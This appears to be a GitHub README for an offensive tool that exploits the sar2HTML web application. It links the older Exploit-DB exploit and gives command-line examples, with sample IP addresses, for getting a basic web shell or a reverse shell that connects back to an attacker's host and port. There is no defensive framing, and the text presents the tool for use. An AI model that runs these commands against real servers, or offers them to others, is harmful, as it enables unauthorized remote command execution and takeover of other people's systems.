 # sar2THML
Reverse Shell for sar2HTML (Basic web and reverse)

# Details

You can use the old exploit if not try a new folder (admin may have moved the install directory)

[Old Exploit](https://www.exploit-db.com/exploits/47204)


# Usage: ./sar2HTML -ip HOST IP -rip IP:PORT -pe folder

# Exmaples:

./sar2HTML -ip 192.168.1.81 -rip 192.168.1.22:9999 -pe sar2HTML (Reverse Shell)

./sar2HTML -ip 192.168.1.81 (Baisc Web Shell)

Basic check

![](assets/notvuln.png)

WebShell

![](assets/webshell.png)

ReverseShell

![](assets/shell.png)
